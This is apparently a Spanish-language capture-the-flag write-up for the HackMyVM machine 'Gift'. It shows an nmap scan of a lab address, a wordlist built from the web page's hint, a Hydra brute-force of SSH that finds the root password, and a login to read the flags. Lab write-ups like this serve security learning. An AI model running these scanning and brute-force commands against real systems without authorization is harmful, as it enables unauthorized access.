

# WriteUp: Gift | HackMyVM

### <mark style="color:yellow;">Análisis Inicial</mark>

Este documento detalla el proceso de resolución para la máquina **Gift** de la plataforma HackMyVM. La descripción de la máquina virtual (VM) establece la siguiente premisa:

> "A really easy VM. Thats a gift :)"

Lo cual traducido al español sería algo como:

```
Opción más literal y directa: 
"Una VM muy fácil. Es un regalo :)"

Opciones más naturales y comunes en español:

- "Una VM realmente fácil. Es todo un regalo :)"
    
- "Una máquina virtual muy sencilla. Prácticamente un regalo :)"
    
- "Esta VM es muy fácil. Un regalito :)" (Más informal)
```

Esta afirmación sugiere que la ruta de explotación no requerirá técnicas complejas ni una enumeración exhaustiva. La estrategia inicial se basará en identificar pistas evidentes y seguir la ruta más directa posible.

### <mark style="color:green;">Fase 1: Reconocimiento</mark>

El objetivo de esta fase es identificar los puntos de entrada y los servicios expuestos en la máquina víctima.

#### <mark style="color:purple;">Escaneo de Puertos y Servicios</mark>

Se ejecutó un escaneo de red utilizando **Nmap** para identificar puertos abiertos, versiones de servicios y ejecutar scripts de enumeración básicos.

<mark style="color:purple;">**Comando Ejecutado:**</mark>

```sh
nmap -sV -O -sC -T4 172.16.201.128
```

Resultados del Escaneo:

El escaneo reveló dos servicios principales en ejecución:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81:ab:36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
```

* **Puerto 22:** Servicio **SSH** (OpenSSH 8.3).
* **Puerto 80:** Servicio **HTTP** (Nginx).

#### <mark style="color:purple;">Acceso al Servicio Web</mark>

Al acceder a la dirección IP `http://172.16.201.128` a través de un navegador web, se encontró una página con un único mensaje, reforzando la idea inicial de simplicidad:

<figure><figcaption></figcaption></figure>

> "Dont Overthink. Really, Its simple."

Por lo que su traducción al español sería algo como esto:

```
Opción 1 (Más directa):
"No lo pienses demasiado. En serio, es simple."

Opción 2 (Muy común y natural): 
"No le des tantas vueltas. De verdad, es sencillo."

Opción 3 (Enfocada en la acción):
"No te compliques. En serio, es simple."
```

Lo usual sería que después de ingresar a la página web realicemos un búsqueda de directorios internos u ocultos de la misma, sin embargo, según el texto y sus traducciones, "no deberíamos de darle muchas vueltas".

Así mismo, ingresamos a la página web para poder identificar alguna pista que nos permite obtener credenciales de acceso a través de ssh, por lo que quizá algún juego de las palabras que se muestran en pantalla sea parte de las credenciales.

### <mark style="color:green;">Fase 2: Explotación</mark>

Esta fase se centra en obtener acceso al sistema utilizando la información recopilada.

#### <mark style="color:purple;">Ataque de Fuerza Bruta a SSH</mark>

La estrategia consistió en realizar un ataque de fuerza bruta por diccionario contra el servicio SSH, utilizando las palabras encontradas en la web y otros nombres de usuario comunes.

<mark style="color:purple;">**1. Creación del Diccionario**</mark>

Se creó un archivo `credenciales.txt` con la siguiente lista de posibles usuarios y contraseñas:

```
user
admin
root
toor
test
Dont
Overthink
Really
Its
simple
```

<mark style="color:purple;">**2. Ejecución del Ataque con Hydra**</mark>

Se utilizó la herramienta **Hydra** para automatizar el ataque, utilizando el mismo archivo como lista de usuarios (`-L`) y contraseñas (`-P`).

<mark style="color:purple;">**Comando Ejecutado:**</mark>

```sh
hydra -L credenciales.txt -P credenciales.txt ssh://172.16.201.128 -V
```

<mark style="color:purple;">**3. Obtención de Credenciales**</mark>

El ataque fue exitoso, revelando un par de credenciales válidas para el sistema.

<mark style="color:purple;">**Resultado de Hydra:**</mark>

```sh
[22][ssh] host: 172.16.201.128   login: root   password: simple
```

* **Usuario:** `root`
* **Contraseña:** `simple`

### <mark style="color:green;">Fase 3: Post-Explotación</mark>

Con credenciales de `root`, el objetivo final es encontrar y leer las banderas de `user` y `root` para completar el desafío.

#### <mark style="color:purple;">Acceso y Captura de Banderas (Flags)</mark>

<mark style="color:purple;">**1. Conexión Remota**</mark>

Se estableció una conexión SSH utilizando las credenciales obtenidas:

```sh
ssh root@172.16.201.128
```

Al solicitar la contraseña, se ingresó `simple`, obteniendo acceso inmediato a una shell como superusuario (`root`).

<mark style="color:purple;">**2. Localización y Lectura de Banderas**</mark>

Siguiendo la premisa de la simplicidad de la máquina, se ejecutó un comando `ls -la` en el directorio principal del usuario (`/root`).

```sh
# ls -la
drwx------    2 root     root          4096 Sep 24  2020 .
drwxr-xr-x   22 root     root          4096 Sep 18  2020 ..
-rw-------    1 root     root            23 Jul 27 16:41 .ash_history
----------    1 root     root            12 Sep 24  2020 root.txt
-rw-rw----    1 root     root            12 Sep 24  2020 user.txt
```

Las banderas `user.txt` y `root.txt` se encontraron directamente en el directorio home del usuario `root`. Se procedió a leer su contenido con el comando `cat`.

<mark style="color:purple;">**Ejemplo de Lectura:**</mark>

```sh
cat user.txt
cat root.txt
```

La lectura de estos archivos finalizó exitosamente el desafío CTF.
